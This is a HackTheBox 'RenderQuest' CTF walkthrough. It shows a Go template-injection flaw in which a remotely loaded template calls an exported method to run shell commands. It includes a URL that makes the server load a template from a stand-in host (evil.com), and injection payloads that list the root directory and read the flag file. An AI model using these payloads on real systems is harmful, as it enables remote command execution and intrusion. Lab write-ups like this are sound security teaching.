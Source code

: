 # RenderQuest - HackThebox Challenge [EASY]

`This walkthrough was carried out using the local environment in Docker, to use the real environment you need a public IP to connect to make the HTTP request.`

## Recon / Code review

- The application has 2 main files, namely, ***main.go*** and ***index.tpl***, with main.go containing the application's business logic, and index being the initial view of the page.

- Analyzing the context of the application, we can see that it is an application that returns server data to a template loaded internally or remotely in the system.

  ![Index](static/index.png)

  - The ***page*** parameter is used to load the sent templates, and there is also a parameter called **use_remote**, a boolean to validate whether the requests will be internal or made remotely.

    ​      `render?use_remote=true&page=http://evil.com/index.tpl`

- Reading the ***main.go*** file, we identified a function that makes calls to the operating system based on a parameter passed to it.

  ![Function](static/functionFetchInfoServer.png)

- The initial idea was to figure out how to call this ***FetchServerInfo*** function, passing parameters to it, and shortly after, this idea was realized, and exploitation was performed.



## Testing application

- Based on everything that was discovered, I started testing the application's functionalities. Let's try to upload a template remotely and extract some of the functions established by default in the application.

  - I then created a template using the ***ServerInfo.Hostname*** function available by default in the application.

    ![Template](static/mytemplate-initial.png)

    After creating it, I tried to load this template remotely to see if it would return the server's hostname.

    ![Hostname](static/exec-template-initial.png)

    Returned the server's hostname, so we were able to figure out how to interact with the application.



## Exploitation

- Searching the internet for common vulnerabilities in golang template systems, I found this article: https://www.onsecurity.io/blog/go-ssti-method-research/. This article provides exactly what we are looking for to exploit the template system and execute the previously discovered function.

  - ***Note:*** To exploit the desired method, we need to evaluate whether the method is an "exported method" because the template system package will call the method. In Golang, starting the method name with uppercase letters is not just aesthetic; it is to identify that the method is "exported." This nomenclature means that the method can be called by packages different from the one it was defined in.

  - Evaluating the case: We can see that the "***FetchServerInfo***" method is an exported method, so we can try to use it to achieve RCE in the application.
  - Changing our template, we can call the method and pass a command in the parameter.

  ![Exploiting](static/mytemplate-exploiting.png)

  Uploading our web server again and calling our template through the application.

  ![image-20231129124208821](/Users/vnunes/Library/Application Support/typora-user-images/image-20231129124208821.png)

  Pwned!!



## Flag

- The flag has a random ID, so we'll take two steps to identify it.
  -  First step: Let's change the content of our template to ***{{.FetchInfoServer "ls -la /"}}*** and then check the flag's ID.
  - Second step: Let's modify the payload to view the content of the flag: ***{{.FetchInfoServer "cat /flag$$$$$$.txt"}}***
  
   The $ simulates the flag's ID.

![Flag](static/flag.png)